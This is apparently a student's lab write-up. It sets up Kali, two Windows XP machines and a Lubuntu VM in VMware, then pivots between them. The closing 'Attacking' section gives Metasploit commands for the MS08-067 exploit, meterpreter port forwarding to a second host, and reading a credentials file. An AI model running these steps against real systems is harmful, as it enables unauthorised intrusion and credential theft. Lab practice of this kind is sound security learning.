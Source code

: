 # Overview
This week our assignment was to have three VMs on a network (Alpha, Beta and Omega) and obtain access to Omega through Alpha and Omega.

![net.JPG](net.JPG)

# Setting up Kali VM
1. Go to https://www.kali.org/downloads/ and download the Kali Linux ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Kali ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for instead of just “Kali”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 60 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

# Setting up Windows XP VM - Alpha & Beta
1. Obtain a version of Windows XP - SP1 and a registration. I have a copy of an ISO from a class I took in high school and will be using it for this tutorial.
2. Open up VMWare.
3. On the home screen, click on “Create a new virtual machine”.
4. Select “Installer disc image file (ISO)” and enter the path where the Windows ISO was saved.
5. The Guest Operating System is Windows and the version is XP.
6. Name the VM something related to what you are using it for instead of just “Windows”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 40 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!
10. Repeat for Beta

# Setting up Lubuntu - Omega
1. Go to https://lubuntu.me/downloads/ and download the Lubuntu ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Lubuntu ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for. Use "Omega" as the name for this assignment. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 32 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

10. Select your language of choice.
11. When you get to the home screen, press the down arrow and enter to select "Install Lubuntu".
12. Select your language prefernce and press "Continue".
13. On the next screen, check the box "Download updates while installing Lubuntu" and press "Continue".
14. For the installation type, select "Erase disk and install Lubuntu" and "Install Now".
  >Note: You will get a prompt if you want to make changes to the disk. Click "Continue" to make the changes.
15. Select your timezone and click "Continue".
16. Choose keyboard format of your choice and click "Continue".
17. Personal information:

  >a. Enter your name
  >b. Enter computer name
  >c. Enter username
  >d. Enter and confirm password
  >e. Press "Continue"
  
18. Wait for Lubuntu to finish installing!
  >Note: This will take a while.
19. Once installation is complete, reboot the VM and you will be able to login!

# Attacking
To get access to Omega, I am first attacking Alpha from my Kali VM to get access to Beta. To get into Alpha, I am using one of my favorite vulnerabilites, MS08-067. MS08-067 is a Remote Code Execution vulnerability on Windows XP machines.
1. Open Kali VM.
2. Open Metasploit by entering ```msfconsole```.
3. Type ```use exploit/windows/smb/ms08_067_netapi```.
4. Enter ```set RHOST 192.168.206.136```
5. Type ```run``` or ```exploit```.
6. Congrats! You have a shell! 
7. Enter the following command for port forwarding from your Kali VM to the Beta VM: ```portfwd add -l 445 -p 445 -r 192.168.206.140```
8. Type ```background``` in your shell.
9. Enter ```set RHOST 127.0.0.1```
10. Type ```run``` or ```exploit```.
11. Congrats! You have a shell now on Beta!
![success1.JPG](success1.JPG)
![SUCCESS.JPG](SUCCESS.JPG)
12. Type ```cat password.txt``` to read a file with credentials.
13. You now have the credentials to the Omega VM!

![creds.JPG](creds.JPG)
